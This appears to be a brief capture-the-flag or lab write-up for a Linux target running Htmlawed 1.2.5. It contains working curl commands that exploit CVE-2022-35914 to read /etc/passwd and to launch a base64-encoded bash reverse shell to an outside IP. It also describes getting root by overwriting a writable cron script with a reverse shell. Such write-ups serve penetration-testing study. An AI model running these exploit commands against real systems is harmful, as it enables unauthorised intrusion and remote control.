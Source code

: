 #InProgress 
```IP
192.168.175.190
```
# Enumeration

## HTTP 80
Htmlawed 1.2.5

# Exploitation
https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/
```
curl -s -d 'sid=foo&hhook=exec&text=cat /etc/passwd' -b 'sid=foo' http://192.168.175.190/index.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'
```
```
echo "/bin/bash -i >& /dev/tcp/192.168.45.237/4444 0>&1" |base64
```
```
curl -s -d 'sid=foo&hhook=exec&text=echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMjM3LzQ0NDQgMD4mMQo=|base64 -d|bash' -b 'sid=foo' http://192.168.175.190/index.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'
```
# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241128101408.png?raw=true)
with pspy64
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241128104452.png?raw=true)
we see that /var/www/cleanup.sh is executing
we have write permissions over this script so we substitute it for a reverse shell
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241128110152.png?raw=true)
and we are root
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241128110204.png?raw=true)
## Automated

### Peass

https://github.com/ly4k/PwnKit
failed
https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits

### Mimikatz

# Lateral Movement
